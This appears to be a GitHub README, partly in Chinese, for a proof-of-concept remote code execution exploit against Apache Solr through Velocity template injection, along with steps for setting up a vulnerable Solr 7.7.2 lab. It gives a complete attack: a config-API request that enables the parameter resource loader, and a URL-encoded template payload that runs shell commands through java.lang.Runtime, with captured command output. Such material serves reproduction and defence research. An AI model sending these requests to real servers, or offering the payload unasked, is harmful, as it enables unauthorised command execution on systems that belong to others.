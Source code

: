 # Apache Solr RCE via Velocity template

## python usage:

`python solr_rce.py http://192.168.5.86:8983 command`


![](./solr-rce.jpg)

## Attack start


1. Set `params.resource.loader.enabled` as true.

```
Request:
========================================================================
POST /solr/test/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
========================================================================
```

2. RCE via velocity template

```
Request:
========================================================================
GET /solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: localhost:8983
========================================================================


Response:
========================================================================
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Content-Length: 56

     0  uid=8983(solr) gid=8983(solr) groups=8983(solr)
========================================================================
```
## 0x01 solr简介

Solr是Apache Lucene项目的开源企业搜索平台。
其主要功能包括全文检索、命中标示、分面搜索、动态聚类、数据库集成，以及富文本的处理。
2019年10月30日，国外安全研究人员放出了一个关于solr 模板注入的exp，攻击者通过未授权访问solr服务器，发送特定的数据包开启params.resource.loader.enabled，然后get访问接口导致服务器命令执行，命令回显结果在response，于是本地搭建漏洞环境复现一下。

## 0x02 漏洞环境搭建

`https://www.apache.org/dyn/closer.lua/lucene/solr/7.7.2`

`https://mirrors.tuna.tsinghua.edu.cn/apache/lucene/solr/7.7.2/solr-7.7.2.zip`

#### velocity.solr.resource.loader.enabled:true

`/opt/solr-7.7.2/example/example-DIH/solr/atom/conf/solrconfig.xml`

```
root@kali:/opt/solr-7.7.2/example/example-DIH/solr/atom/conf# cat solrconfig.xml | grep enable
    <enableLazyFieldLoading>true</enableLazyFieldLoading>
    <str name="solr.resource.loader.enabled">${velocity.solr.resource.loader.enabled:true}</str>
    <str name="params.resource.loader.enabled">${velocity.params.resource.loader.enabled:false}</str>
root@kali:/opt/solr-7.7.2/example/example-DIH/solr/atom/conf#
```
#### 开启dih 示例

`./solr -e dih -force`

```
root@kali:/opt/solr-7.7.2/bin# ./solr -e dih -force
*** [WARN] *** Your open file limit is currently 1024.
 It should be set to 65000 to avoid operational disruption.
 If you no longer wish to see this warning, set SOLR_ULIMIT_CHECKS to false in your profile or solr.in.sh

Starting up Solr on port 8983 using command:
"/opt/solr-7.7.2/bin/solr" start -p 8983 -s "/opt/solr-7.7.2/example/example-DIH/solr" -force

Waiting up to 180 seconds to see Solr running on port 8983 [\]
Started Solr server on port 8983 (pid=20222). Happy searching!


Solr dih example launched successfully. Direct your Web browser to http://localhost:8983/solr to visit the Solr Admin UI
root@kali:/opt/solr-7.7.2/bin#
```

![](./solr-8983.jpg)

## 参考链接：

https://gist.githubusercontent.com/s00py/a1ba36a3689fa13759ff910e179fc133/raw/fae5e663ffac0e3996fd9dbb89438310719d347a/gistfile1.txt
